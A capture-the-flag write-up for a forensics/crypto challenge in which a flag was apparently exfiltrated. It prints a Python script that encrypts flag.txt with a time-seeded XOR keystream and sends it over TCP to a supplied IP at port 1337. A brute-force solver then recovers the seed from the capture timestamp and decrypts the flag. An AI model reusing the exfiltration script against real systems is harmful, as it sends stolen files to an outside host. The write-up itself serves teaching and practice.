

# Times to Die

## Description

We noticed some suspicious traffic on our network. We think an attacker may have hacked one of our workstations and exfiltrated our flag! We also found this strange python program that may have something to do with it.

## Source Code Analysis

The challenge comes with a packet capture file `traffic.pcapng` and the script used to transmit the flag over the captured network. 

`server.py`

```python
import sys
import socket
import random
from time import time

def xor(bytes1, bytes2):    
    return bytes(a ^ b for a, b in zip(bytes1, bytes2))

def pad(plaintext, length):
    pad_len = length - (len(plaintext)%length)
    return plaintext + bytes([pad_len]*pad_len)

def encrypt(plaintext):
    key = int(time()*2**16)
    random.seed(key)
    plaintext = pad(plaintext,4)
    blocks = []
    for i in range(0,len(plaintext),4):
        ct_block = xor(plaintext[i:i+4],random.randbytes(4))
        blocks.append(ct_block)
    ciphertext = b''.join(blocks)
    return ciphertext

def main():
    if len(sys.argv) < 2:
        print('Usage: server.py <ip>')
        return 1
    ip = sys.argv[1]

    with open('flag.txt','rb') as fil:
        flag = fil.read()
    assert flag.startswith(b'BCCTF{')
    flag_enc = encrypt(flag)

    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect((ip, 1337))
    client.sendall(flag_enc)
    client.close()
    
    return 0

if __name__ == '__main__':
    sys.exit(main())
```

The above script encrypts the flag by performing a XOR of each byte with a key made of random bytes obtained from the seed `time()*2**16`, where `time()` returns the current time in seconds since the Unix epoch.
The encrypted flag is then sent to an unknown IP address at port 1337.

### Exploit

The main idea is to find the packet that contains the encrypted flag and bruteforce the decryption by trying with all possible seed values starting from the time the target TCP handshake was initiated.

The flag transmission is easily found by filtering with destination port `tcp.dstport == 1337`.    



Once the encrypted flag and the transmission time is known, it is possible to attempt decryption by moving backward in time until the correct seed is found

`solve.py`
```python
from time import time
from datetime import datetime
import random
import pytz

enc_flag = bytes.fromhex("9d80c4df97fe91a0bb2867c78700c43c4eeb92770ea6ca6934bbcd5ffd40d548aba049344921e1db129e94a382f6678d")
captured_flag_timestamp = "2025-01-28 18:15:59.839446"
timestamp_obj = datetime.strptime(captured_flag_timestamp, "%Y-%m-%d %H:%M:%S.%f")
timestamp_obj_utc = timestamp_obj.replace(tzinfo=pytz.UTC)
starting_seed = timestamp_obj_utc.timestamp()
print(starting_seed)


def xor(bytes1, bytes2):
    return bytes(a ^ b for a, b in zip(bytes1, bytes2))

def decrypt(ciphertext, key):
    random.seed(key)  
    blocks = []
    for i in range(0, len(ciphertext), 4):
        pt_block = xor(ciphertext[i:i+4], random.randbytes(4))
        blocks.append(pt_block)
    plaintext = b"".join(blocks)
    return plaintext

def pad(plaintext, length):
    pad_len = length - (len(plaintext)%length)
    return plaintext + bytes([pad_len]*pad_len)

def encrypt(plaintext):
    key = int(time()*2**16)
    random.seed(key)
    plaintext = pad(plaintext,4)
    blocks = []
    for i in range(0,len(plaintext),4):
        ct_block = xor(plaintext[i:i+4],random.randbytes(4))
        blocks.append(ct_block)
    ciphertext = b''.join(blocks)
    return ciphertext

decrease = 0
while True:
    key = int((starting_seed - decrease)*2**16)  
    flag = decrypt(enc_flag, key)
    decrease += 0.000001  # (microseconds)
    if flag.startswith(b"BCCTF{"):
        print(f"Found flag: {flag}; timestamp: {starting_seed - decrease}") 
        break
```

```python 
Found flag: b'BCCTF{175_n07_5Ymb0lic_itS_jU57_Hum4n_n47ure}\x03\x03\x03'; timestamp: 1738088099.1539292
```


